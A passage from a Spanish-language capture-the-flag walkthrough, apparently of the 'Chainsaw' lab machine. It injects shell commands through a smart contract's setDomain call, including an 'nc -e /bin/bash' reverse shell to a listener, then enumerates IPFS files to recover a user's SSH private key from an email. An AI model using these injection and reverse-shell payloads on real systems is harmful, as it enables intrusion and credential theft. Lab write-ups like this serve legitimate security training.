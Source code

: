 ```python3
>>> contract.functions.setDomain('youtube.com').transact()
HexBytes('0xaf117d49938704c00dd79b9ffdcac17b077bae594ad7a83a507a1bdcbbe5b356')
>>> contract.functions.getDomain().call()
'youtube.com'
>>> contract.functions.setDomain('10.10.14.12; ping -c 3 IP').transact()
HexBytes('0xf6bfe28c9b14a523c3621e893ade5ac89c1bd171c124a03c4baba1ac9e6f79b9')

- RCE -
>>> contract.functions.setDomain('10.10.14.12;nc -e /bin/bash IP 443').transact()
HexBytes('0x732bdc75b92c0e037a61b113fbd62230ef534d93c4d00ac5a39796f1f26439dc')
```

Nos ponemos con una session de `nc -vlnp 443` a la escucha y recibimos la shell como `Administrator`

# IPFS - User Pivotion 
Encontramos enumerando el directorio de nuestro usuario un directorio llamado `.ipfs`
Procedemos de la siguiente manera.

```bash
administrator@chainsaw:/home/administrator$ for i in $(ipfs refs local); do ipfs ls $i 2>/dev/null; done
QmXWS8VFBxJPsxhF8KEqN1VpZf52DPhLswcXpxEDzF5DWC 391 arti.key.pub
QmPjsarLFBcY8seiv3rpUZ2aTyauPF3Xu3kQm56iD6mdcq 391 bobby.key.pub
QmUHHbX4N8tUNyXFK9jNfgpFFddGgpn72CF1JyNnZNeVVn 391 bryan.key.pub
QmUH2FceqvTSAvn6oqm8M49TNDqowktkEx4LgpBx746HRS 391 lara.key.pub
QmcMCDdN1qDaa2vaN654nA4Jzr6Zv9yGSBjKPk26iFJJ4M 391 wendy.key.pub
QmZrd1ik8Z2F5iSZPDA2cZSmaZkHFEE4jZ3MiQTDKHAiri 45459 mail-log/
QmbwWcNc7TZBUDFzwW7eUTAyLE2hhwhHiTXqempi1CgUwB 10063 artichain600-protonmail-2018-12-13T20_50_58+01_00.eml
QmViFN1CKxrg3ef1S8AJBZzQ2QS8xrcq3wHmyEfyXYjCMF 4640  "bobby"axelrod600-protonmail-2018-12-13-T20_28_54+01_00.eml    SERA LA ID_RSA ?? Para Bobby??
QmZxzK6gXioAUH9a68ojwkos8EaeANnicBJNA3TND4Sizp 10084 bryanconnerty600-protonmail-2018-12-13T20_50_36+01_00.eml
QmegE6RZe59xf1TyDdhhcNnMrsevsfuJHUynLuRc4yf6V1 10083 laraaxelrod600-protonmail-2018-12-13T20_49_35+01_00.eml
QmXwXzVYKgYZEXU1dgCKeejT87Knw9nydGcuUZrjwNb2Me 10092 wendyrhoades600-protonmail-2018-12-13T20_50_15+01_00.eml
QmZTR5bcpQD7cFgTorqxZDYaew1Wqgfbd2ud9QqGPAkK2V 1688 about
QmYCvbfNbCwFR45HiNP45rwJgvatpiW38D961L5qAhUM5Y 200  contact
QmY5heUM5qgRubMDD1og9fhCPA6QdkMp3QCwd4s7gJsyE7 322  help
QmejvEPop4D7YUadeGqYWmZxHhLc4JBUCzJJHWMzdcMe2y 12   ping
QmXgqKTbzdh83pQtKFb19SpMCpDDcKR2ujqk3pKph9aCNF 1692 quick-start
QmPZ9gcCEpqKTo6aq61g2nXGUhM4iCL3ewB6LDXZCtioEB 1102 readme
QmQ5vhrL7uv6tuoN9KeVBwd4PwfQkXdVVmDLUZuTNxqgvm 1173 security-notes
QmWMuEvh2tGJ1DiNPPoN6rXme2jMYUixjxsC6QUji8mop8 2996 maintain/
QmXymZCHdTHz5BA5ugv9MQTBtQAb6Vit4iFeEnuRj6Udrh 660  gen.py
QmPctBY8tq2TpPufHuQUbe2sCxoy2wD5YRB6kdce35ZwAx 2237 pub/
QmYn3NxLLYA6xU2XL1QJfCZec4B7MpFNxVVtDvqbiZCFG8 231 chainsaw-emp.csv
```
Nos descargamos el contenido del mail encontramos una cadena en base64 que resulta ser la id_rsa de Bobby
